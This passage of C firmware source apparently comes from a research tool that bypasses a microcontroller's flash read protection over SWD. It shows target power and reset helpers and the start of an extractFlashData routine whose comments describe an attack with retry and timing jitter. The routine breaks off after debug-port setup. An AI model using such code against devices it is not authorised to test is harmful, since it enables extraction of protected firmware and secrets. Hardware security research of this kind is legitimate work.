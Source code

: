 ```c
void targetRestore(void) {
    digitalWrite(TARGET_RESET_Pin, HIGH);
}

void targetPowerOff(void) {
    digitalWrite(TARGET_PWR_Pin, LOW);
}

void targetPowerOn(void) {
    digitalWrite(TARGET_PWR_Pin, HIGH);
}
```

### reader.c

```c
/*
 * Copyright (C) 2017 Obermaier Johannes
 * Copyright (C) 2022 Lucas Teske
 *
 * This Source Code Form is subject to the terms of the MIT License.
 * If a copy of the MIT License was not distributed with this file,
 * you can obtain one at https://opensource.org/licenses/MIT
 */

#include "main.h"
#include "swd.h"

/* Reads one 32-bit word from read-protection Flash memory. Address must be 32-bit aligned */
swdStatus_t extractFlashData(uint32_t const address, uint32_t* const data) {
    swdStatus_t dbgStatus;

    /* Add some jitter on the moment of attack (may increase attack effectiveness) */
    static uint16_t delayJitter = DELAY_JITTER_MS_MIN;

    uint32_t extractedData = 0u;
    uint32_t idCode = 0u;

    /* Limit the maximum number of attempts PER WORD */
    uint32_t numReadAttempts = 0u;

    /* try up to MAX_READ_TRIES times until we have the data */
    do {
        digitalWrite(LED1_Pin, LOW);

        targetPowerOn();

        delay(5);

        dbgStatus = swdInit(&idCode);

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdEnableDebugIF();
        }

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdSetAP32BitMode(NULL);
        }

        if (dbgStatus == swdStatusOk) {
            dbgStatus = swdSelectAHBAP();
        }

```